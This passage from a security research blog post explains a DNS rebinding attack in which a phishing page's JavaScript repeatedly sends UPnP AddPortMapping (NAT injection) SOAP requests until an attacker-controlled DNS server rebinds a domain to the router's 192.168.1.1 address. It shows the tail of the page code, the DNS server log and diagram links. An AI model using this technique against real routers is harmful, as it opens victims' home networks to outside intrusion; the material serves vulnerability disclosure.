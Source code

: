             poll();

        });

    </script\>

</head\>

<body\>

    <h1\>DNS Rebinding attack against vulnerable router - AddPortMapping</h1\>

</body\>

</html\>

  

The JavaScript code embedded in the HTML phishing page continuously performs the **NAT Injection** SOAP request via XHR, the attacker-controlled DNS server is hit multiple times and responds with the real IP address of the  _**127-0-0-1.192-168-1-1.attacker.mindedsecurity.com**_ domain, which in this case is **127.0.0.1** because the web server was runned locally. 

After a while, the DNS server returns the **192.168.1.1** IP address:

  

$ sudo python dns\_server.py

0 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1

1 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1

2 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1

3 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1

4 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1

5 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1

6 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1

7 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 127.0.0.1

8 127-0-0-1.192-168-1-1.attacker.mindedsecurity.com -> 192.168.1.1

. . .

This way, the request was successfully sent to the router adding the new port mapping rule:

  

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiwBTnTA04pWv2on1dFJLlCodvAHa1DjMzTaZQVYxoCPjiJGdcr8flX2vZlndRBcL4L66xEqRJBSnEkYU8Mu1zbNTdquupt58wxAgnlAQPNdlxnU-WCW7mIAwP4HrvWW1xofrQIgdc600jU/w640-h60/nat.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEiwBTnTA04pWv2on1dFJLlCodvAHa1DjMzTaZQVYxoCPjiJGdcr8flX2vZlndRBcL4L66xEqRJBSnEkYU8Mu1zbNTdquupt58wxAgnlAQPNdlxnU-WCW7mIAwP4HrvWW1xofrQIgdc600jU/)

The following diagram shows the complete attack flow.

[![](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhORfqr28X7Q_nvK829h-aCfhcKn84I16OkBQc4wVAd2VLH_rRyN5pPZc6qxDv1_97BYSH1leTL3YRYgzJTlClCB7R-eMczYPmNkxMbgZNfXg0ChdjShO9rM-dgly_K43Dlb402D2bMwId3/w640-h410/upnp_diagram.png)](https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEhORfqr28X7Q_nvK829h-aCfhcKn84I16OkBQc4wVAd2VLH_rRyN5pPZc6qxDv1_97BYSH1leTL3YRYgzJTlClCB7R-eMczYPmNkxMbgZNfXg0ChdjShO9rM-dgly_K43Dlb402D2bMwId3/)
